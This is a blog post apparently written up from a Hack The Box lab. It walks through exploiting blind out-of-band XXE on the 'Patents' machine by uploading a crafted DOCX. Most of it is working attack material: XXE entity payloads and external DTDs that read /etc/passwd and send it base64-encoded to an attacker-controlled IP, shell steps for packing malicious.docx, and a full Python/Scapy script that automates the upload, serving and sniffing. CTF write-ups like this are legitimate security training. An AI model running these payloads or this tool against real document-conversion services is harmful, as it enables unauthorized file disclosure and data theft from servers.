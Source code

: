 ```yaml
---
layout: post
title: "Playing with HTB{ Patents }"
date: 2020-05-16 19:00:00 +0300
author: snovvcrash
tags: [notes, hackthebox, machine, linux, docx, xxe, python, scapy]
published: true
---
```


Automate crafting malicious DOCX for blind XXE-OOB with external DTD using Python and Scapy.

<!--cut-->

<p align="right">
	<a href="https://www.hackthebox.eu/home/machines/profile/224"><img src="https://img.shields.io/badge/%e2%98%90-Hack%20The%20Box-8ac53e?style=flat-square" alt="htb-badge.svg" /></a>
	<span class="score-hard">7.8/10</span>
</p>

![banner.png](/assets/images/htb/machines/patents/banner.png)
{:.center-image}

![info.png](/assets/images/htb/machines/patents/info.png)
{:.center-image}

* TOC
{:toc}

# XXE

## Manual exploitation

### Way 1. General entity payload

`customXml/item1.xml`:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY>
<!ENTITY % xxe SYSTEM "http://10.10.15.131:1337/ext.dtd">
%xxe;
%ext;
]>
<foo>&exfil;</foo>
```

External file `ext.dtd` (hosted on local machine):

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % ext "<!ENTITY exfil SYSTEM 'http://10.10.15.131:1337/?x=%file;'>">
```

### Way 2. Parameter entity payload

`customXml/item1.xml`:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY>
<!ENTITY % xxe SYSTEM "http://10.10.15.131:1337/ext.dtd">
%xxe;
]>
<foo></foo>
```

External file `ext.dtd` (hosted on local machine):

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % ext "<!ENTITY &#x25; exfil SYSTEM 'http://10.10.15.131:1337/?x=%file;'>">
%ext;
%exfil;
```

### Malicious DOC/DOCX

Get `docx` sample and unpack it:

```
root@kali:$ curl https://file-examples.com/wp-content/uploads/2017/02/file-sample_100kB.docx > sample.docx
root@kali:$ unzip sample.docx
```

Create `customXml/` dir with a payload and pack it back:

```
root@kali:$ mkdir customXml
root@kali:$ vi customXml/item1.xml
...
root@kali:$ rm malicious.docx; zip -r malicious.docx '[Content_Types].xml' customXml/ docProps/ _rels/ word/
```

![manual-exploit-out-1.png](/assets/images/htb/machines/patents/manual-exploit-out-1.png)
{:.center-image}

![manual-exploit-out-2.png](/assets/images/htb/machines/patents/manual-exploit-out-2.png)
{:.center-image}

## Automate with Scapy

Scripting all the stuff to run simple HTTP server and Scapy HTTP sniffer in separate threads:

```python
#!/usr/bin/env python3

import re
import cmd
import socket
import fcntl
import struct
from base64 import b64decode
from threading import Thread
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer

# http.server.BaseHTTPRequestHandler VS http.server.SimpleHTTPRequestHandler
# socketserver.TCPServer VS http.server.HTTPServer

import requests
from scapy.all import *

M = '\033[%s;35m'  # MAGENTA
S = '\033[0m'      # RESET

URL = 'http://patents.htb/convert.php'


class SilentHTTPRequestHandler(SimpleHTTPRequestHandler):
	"""
	https://stackoverflow.com/a/3389505/6253579
	https://stackoverflow.com/a/10651257/6253579
	"""

	def log_request(self, code='-', size='-'):
		return


class HTTPServerInThread(Thread):

	def __init__(self, address='0.0.0.0', port=1337):
		super().__init__()
		self.address = address
		self.port = port
		self.httpd = TCPServer((address, port), SilentHTTPRequestHandler)

	def run(self):
		print(f'[*] Serving HTTP on {self.address} port {self.port} (http://{self.address}:{self.port}/) ...')
		self.httpd.serve_forever()


class HTTPSniffer(Thread):

	def __init__(self, iface='tun0'):
		super().__init__()
		self.iface = iface
		self.re = re.compile(r'/\?x=(\S+)')

	def run(self):
		# Wireshark filter: "http.request.method == GET && tcp.port == 1337"
		sniff(iface=self.iface, filter='tcp dst port 1337', prn=self.process_http)

	def process_http(self, pkt):
		try:
			req_text = pkt[Raw].load.decode()
			if '/?x=' in req_text:
				contents_b64 = self.re.search(req_text).group(1)
				print(b64decode(contents_b64).decode())
		except IndexError:
			pass


class Default(dict):

	def __missing__(self, key):
		return '{' + key + '}'


class Terminal(cmd.Cmd):

	prompt = f'{M%0}XXE{S}> '

	def __init__(self, proxies=None):
		super().__init__()

		self.headers = {
			'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0',
			'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
			'Accept-Language': 'en-US,en;q=0.5',
			'Accept-Encoding': 'gzip, deflate'
		}

		self.ext_dtd = """\
			<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource={filename}">
			<!ENTITY % ext "<!ENTITY &#x25; exfil SYSTEM 'http://{ip}:1337/?x=%file;'>">
			%ext;
			%exfil;
		""".replace('\t', '').format_map(Default({"ip": self._get_ip()}))

		if proxies:
			self.proxies = {'http': proxies}
		else:
			self.proxies = {}

	def do_file(self, filename):
		with open('/root/htb/boxes/patents/xxe/ext.dtd', 'w') as f:
			f.write(self.ext_dtd.format(filename=filename))

		files = {
			'userfile': ('test.docx', open('/root/htb/boxes/patents/xxe/docx/malicious.docx', 'rb'), 'application/vnd.openxmlformats-officedocument.wordprocessingml.document'),
			'submit': (None, 'Generate pdf')
		}

		resp = requests.post(URL, files=files)

	def do_EOF(self, args):
		print()
		return True

	def emptyline(self):
		pass

	def _get_ip(self, iface='tun0'):
		s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
		return socket.inet_ntoa(fcntl.ioctl(
			s.fileno(),
			0x8915,  # SIOCGIFADDR
			struct.pack('256s', iface[:15].encode())
		)[20:24])


if __name__ == '__main__':
	server = HTTPServerInThread()
	server.daemon = True
	server.start()

	sniffer = HTTPSniffer()
	sniffer.daemon = True
	sniffer.start()

	Terminal().cmdloop()
```

![xxe-py-out.png](/assets/images/htb/machines/patents/xxe-py-out.png)
{:.center-image}

# Refs

* [What is a blind XXE attack? Tutorial & Examples / Web Security Academy](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-exfiltrate-data-out-of-band)
* [Out-of-band XML External Entity (OOB-XXE) / Acunetix](https://www.acunetix.com/blog/articles/band-xml-external-entity-oob-xxe/)
* [bh-eu-13-XML-data-osipov-slides.pdf](https://media.blackhat.com/eu-13/briefings/Osipov/bh-eu-13-XML-data-osipov-slides.pdf)
* [XXE Attacks— Part 1: XML Basics - klose - Medium](https://medium.com/@klose7/https-medium-com-klose7-xxe-attacks-part-1-xml-basics-6fa803da9f26)
* [Exploiting XXE with local DTD files](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/)
* [Sample .doc and .docx download / File Examples Download](https://file-examples.com/index.php/sample-documents-download/sample-doc-download/)
* [c# - VSTO Word 2013 add in - Add Custom XML to document xml without it being visible on the page - Stack Overflow](https://stackoverflow.com/a/38797399/6253579)
* [python - How to quiet SimpleHTTPServer? - Stack Overflow](https://stackoverflow.com/a/10651257/6253579)
* [python - Leaving values blank if not passed in str.format - Stack Overflow](https://stackoverflow.com/a/19800610/6253579)
